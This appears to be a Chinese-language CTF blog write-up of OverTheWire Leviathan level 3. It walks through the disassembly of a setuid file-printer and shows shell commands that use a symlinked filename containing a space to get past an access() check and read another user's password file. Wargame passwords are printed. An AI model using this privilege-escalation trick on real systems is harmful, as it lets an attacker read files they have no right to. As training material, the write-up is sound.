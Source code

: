========================================
 OverTheWire Leviathan
========================================

.. post:: 2016-01-01
   :tags: CTF
   :author: LA
   :language: zh_CN

地址: `OverTheWire: Leviathan <http://overthewire.org/wargames/leviathan/>`_.

说实话题目不难，可是从开始做题到做完的时间跨度却有一个多月，人家 rr 却做了一会儿就搞定了，我都在干嘛呢？

完整的笔记在 `这里 <https://github.com/SilverRainZ/no-silver-bullet/blob/master/ctf/wargame-leviathan/wargame-leviathan.md>`_\ ，
其中有点意思的是 leviathan3，所以特地摘抄出来：

登入机器后发现家目录有个带 `suid` 权限的可执行文件 `printfile`\ ，属主是 `leviathan3`\ ，用户组是 `leviathan2`\ ，带 `suid` 的程序执行时可以获得和 owner/grouper 相同的权限（euid/egid）。

.. code-block:: text

   leviathan2@melinda:~$ ll printfile  
   -r-sr-x--- 1 leviathan3 leviathan2 7498 Nov 14  2014 printfile*
   leviathan2@melinda:~$ ./printfile 
   *** File Printer ***
   Usage: ./printfile filename
   leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
   You cant have that file...

从字面意思上看，这个程序接受一个文件路径然后把文件的内容显示出来，但是要求它打印 `/etc/leviathan_pass/leviathan3` 却提示 `You cant have that file...`\ ，上 gdb 分析看看。

以下是 `diaasm main` 的结果，假设执行了 `r filename`\ ：

.. code-block:: objdump

   0x0804852d <+0>:     push   %ebp
   0x0804852e <+1>:     mov    %esp,%ebp
   0x08048530 <+3>:     and    $0xfffffff0,%esp
   0x08048533 <+6>:     sub    $0x230,%esp
   0x08048539 <+12>:    mov    0xc(%ebp),%eax           ; argv 参数地址
   0x0804853c <+15>:    mov    %eax,0x1c(%esp)          ; argv 保存到 [esp + 0x1c]
   0x08048540 <+19>:    mov    %gs:0x14,%eax            ; Thread-Local Storage, 不知道是什么
   0x08048546 <+25>:    mov    %eax,0x22c(%esp)
   0x0804854d <+32>:    xor    %eax,%eax
   0x0804854f <+34>:    cmpl   $0x1,0x8(%ebp)           ; argc 和 1 比较，此处 argc 应该为 2
   0x08048553 <+38>:    jg     0x804857e <main+81>      ; / argc > 1 则跳 
   0x08048555 <+40>:    movl   $0x8048690,(%esp)
   0x0804855c <+47>:    call   0x80483d0 <puts@plt>
   0x08048561 <+52>:    mov    0x1c(%esp),%eax
   0x08048565 <+56>:    mov    (%eax),%eax
   0x08048567 <+58>:    mov    %eax,0x4(%esp)
   0x0804856b <+62>:    movl   $0x80486a5,(%esp)
   0x08048572 <+69>:    call   0x80483b0 <printf@plt>
   0x08048577 <+74>:    mov    $0xffffffff,%eax
   0x0804857c <+79>:    jmp    0x80485e8 <main+187>

   ; -> 来自 0x08048553 <+38> 的跳转，以上代码不必分析了
   0x0804857e <+81>:    mov    0x1c(%esp),%eax          ; 取出储存的 argv
   0x08048582 <+85>:    add    $0x4,%eax                ; 移动到 argv 的第一个参数（从 0 计数）
   0x08048585 <+88>:    mov    (%eax),%eax              ; 取出 argv[1] 的值，指向字符串 ‘filename’
   0x08048587 <+90>:    movl   $0x4,0x4(%esp)           ; 参数二：int amode
   0x0804858f <+98>:    mov    %eax,(%esp)              ; | argv[1] 作参数一： char *path
   0x08048592 <+101>:   call   0x8048420 <access@plt>   ; / access(argv[1], 4)，成功返回 0
   0x08048597 <+106>:   test   %eax,%eax
   0x08048599 <+108>:   je     0x80485ae <main+129>     ; 跳
   0x0804859b <+110>:   movl   $0x80486b9,(%esp)
   0x080485a2 <+117>:   call   0x80483d0 <puts@plt>
   0x080485a7 <+122>:   mov    $0x1,%eax
   0x080485ac <+127>:   jmp    0x80485e8 <main+187>

   ; -> 来自 0x08048599 <+108> 的跳转
   0x080485ae <+129>:   mov    0x1c(%esp),%eax          ; \
   0x080485b2 <+133>:   add    $0x4,%eax                ; | 取得 argv[1]
   0x080485b5 <+136>:   mov    (%eax),%eax              ; /
   0x080485b7 <+138>:   mov    %eax,0xc(%esp)           ; ...: argv[1]
   0x080485bb <+142>:   movl   $0x80486d4,0x8(%esp)     ; | char *format: string "/bin/cat %s"
   0x080485c3 <+150>:   movl   $0x1ff,0x4(%esp)         ; | size_t size: 511
   0x080485cb <+158>:   lea    0x2c(%esp),%eax          ; | 
   0x080485cf <+162>:   mov    %eax,(%esp)              ; | char *str
   0x080485d2 <+165>:   call   0x8048410 <snprintf@plt> ; / snprintf(str, 511, "/bin/cat %s", argv[1]);
   0x080485d7 <+170>:   lea    0x2c(%esp),%eax
   0x080485db <+174>:   mov    %eax,(%esp)              ; \
   0x080485de <+177>:   call   0x80483e0 <system@plt>   ; / system("/bin/cat filename");
   0x080485e3 <+182>:   mov    $0x0,%eax
   0x080485e8 <+187>:   mov    0x22c(%esp),%edx
   0x080485ef <+194>:   xor    %gs:0x14,%edx
   0x080485f6 <+201>:   je     0x80485fd <main+208>
   0x080485f8 <+203>:   call   0x80483c0 <__stack_chk_fail@plt>
   0x080485fd <+208>:   leave  
   0x080485fe <+209>:   ret

可以看到程序接受一个文件路径，先检查对该文件的访问权限，然后执行 shell 命令 "/bin/cat filename"。

问题出在 `access` 函数， man 是这样说的：

..

   The access() function shall check the file named by the pathname pointed to by the path argument for accessibility according to the bit pattern contained in amode, **using the real user ID in place of the effective user ID and the real group ID in place of the effective group ID.**


而 `suid` 权限改变的只是进程的 `euid`\ ，因此当你执行 `./printfile /etc/leviathan_pass/leviathan3` 的时候，access 函数总是失败的。

但是用 gdb 改变程序的流程也是\ `\ **不可行** <http://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs>`_\ 的，非 root 的 gdb 调试带 suid 权限的程序时，程序不会获得本来应该有的权限（否则 gdb 就可以任意地改变程序的行为了），即使绕过了 access 函数，你依然会得到一个 `Permission denied`\ 。

到这里我就没辙了，只能看别人的 writeup 了：\ `OverTheWire Leviathan Wargame Solution 2 <https://rundata.wordpress.com/2013/03/27/overthewire-leviathan-wargame-solution-2/>`_\ ，看完发现脑洞确实不够大。

**Solution:**  

access() 接受的是个字符串参数，而 cat 的参数却是由 shell 处理的，执行 `./printfile "flag here"`\ ，对于 access 函数来说是执行了 `access("flag here", 4)`\ , 检查对 `flag here` 这个文件的访问权限，而对 cat 来说是这样的 `system("cat flag here")`\ ，因此可以利用这个区别来绕过 access 函数。

.. code-block:: shell

   leviathan2@melinda:/tmp$ mkdir slove
   leviathan2@melinda:/tmp$ cd slove
   leviathan2@melinda:/tmp/slove$ touch 'flag here'    # 带空格的文件名
   leviathan2@melinda:/tmp/slove$ ln -s /etc/leviathan_pass/leviathan3 flag
   leviathan2@melinda:/tmp/slove$ ls
   flag  flag here
   leviathan2@melinda:/tmp/slove$ ~/printfile 'flag here'  # access 检测的是刚刚建立的新文件， cat 显示的则是 flag 和 here
   Ahdiemoo1j
   /bin/cat: here: No such file or directory

另外发现了一个新工具 ltrace，能够跟踪库函数的调用，就不用像刚才那样分析整个程序了（后面的题目大多数是过一遍 ltrace 就行了）：

.. code-block:: shell

   leviathan2@melinda:~$ ltrace ~/printfile /etc/leviathan_pass/leviathan2
   __libc_start_main(0x804852d, 2, 0xffffd6f4, 0x8048600 <unfinished ...>
   access("/etc/leviathan_pass/leviathan2", 4)                                       = 0
   snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
   system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
    <no return ...>
   --- SIGCHLD (Child exited) ---
   <... system resumed> )                                                            = 0
   +++ exited (status 0) +++

元旦快乐，希望新的一年不要那么痛苦了。

--------------------------------------------------------------------------------

.. isso::
